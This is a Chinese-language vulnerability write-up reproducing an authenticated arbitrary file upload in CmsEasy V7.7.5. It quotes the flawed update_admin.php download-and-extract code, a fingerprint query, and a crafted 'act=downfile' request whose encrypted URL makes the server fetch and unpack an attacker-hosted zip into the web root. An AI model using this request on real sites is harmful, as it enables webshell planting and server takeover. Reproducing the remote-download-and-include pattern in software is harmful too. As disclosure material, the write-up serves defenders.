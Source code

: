 # CmsEasy update_admin.php 后台任意文件上传漏洞

## 漏洞描述

CmsEasy 后台存在任意文件上传漏洞，通过文件 service.php 加密Url参数执行即可上传任意文件

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](../../../.vuepress/public/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313234956895.png)

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313234958829.png)

存在漏洞的文件为 **lib/admin/update_admin.php**

![img](../../../.vuepress/public/img/1632745397516-acc4d6fe-182d-4a3a-87f3-8d9b8299e81d.png)

其中需要注意的代码为

```php
function downfile_action()
    {
        $url = front::get('url');
        $url=service::getInstance()->unlockString($url,"cmseasy_url");
        $res = $this->get_file($url, 'cache');
        if (!$res) {
            $res = array(
                'err' => 1,
                'data' => lang_admin('update_package_download_failed'),
            );
        } else {
            @unlink('upgrade/config_cn.php');
            @unlink('upgrade/config_cn.tmp.php');
            @unlink('upgrade/upgrade.sql');
            @unlink('upgrade/command.php');
            front::remove(ROOT.'/cache/data');
            front::remove(ROOT.'/cache/template');//清空全部语言
            $langdata=getlang();
            if($langdata != ""){
                foreach ($langdata as $key=>$val){
                    front::remove(ROOT.'/cache/'.$val['langurlname']);
                    front::remove(ROOT.'/'.$val['langurlname'].'/template');
                }
            }
            //先清空缓存
            user::deletesession();
            category::deletesession();
            //提取分类
            if(file_exists(ROOT."/lib/table/type.php")) {
                type::deletesession();
            }
            //提取专题
            if(file_exists(ROOT."/lib/table/special.php")) {
                special::deletesession();
            }
            $archive = new PclZip('cache/patch.zip');
            $archive->extract(PCLZIP_OPT_PATH, ROOT, PCLZIP_OPT_REPLACE_NEWER);

            if(file_exists('upgrade/upgrade.sql')) {
                $sqlquery = file_get_contents('upgrade/upgrade.sql');
                $sqlquery = str_replace('`cmseasy_', '`' . config::getdatabase('database', 'prefix'), $sqlquery);

                $sqlquery = str_replace("\r", "", $sqlquery);
                $sqls = preg_split("/;(--)*[ \t]{0,}\n/", $sqlquery);
                $this->exec_cms_sql($sqls);
            }

            if(file_exists('upgrade/command.php')){
                include ROOT . '/upgrade/command.php';
            }
            $res = array(
                'err' => 0,
                'message' => $this->message,
                'data' => lang_admin('upgrade_successful'),
            );
        }

        echo json_encode($res);
        exit;
    }
```

其中使用 unlockString 和 get_file 方法

```php
$url = front::get('url');
$url=service::getInstance()->unlockString($url,"cmseasy_url");
$res = $this->get_file($url, 'cache');
```

![img](../../../.vuepress/public/img/1632746012776-5f9a2330-5289-4b8c-81c7-6f0a3a452979.png)

写入后在上层目录写入文件，即Web根目录，创建压缩包并上传可访问的服务器上

```php
zip phpinfo.zip phpinfo.php
```

构造下载请求

![img](../../../.vuepress/public/img/1632746461754-efd8a8a5-d455-4ccd-b194-a8716a206640.png)

```php
/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=buTdBnP8%3DJ%3DELYuF8Z2IwZyM-awr9fH%3D0cax6mxICukxw
```

![img](../../../.vuepress/public/img/1632746383961-7f2d63fc-2480-4604-8646-446503f857c6.png)

![img](../../../.vuepress/public/img/1632746435271-559c0cc2-38a7-4a8d-a24a-b6fd48180482.png)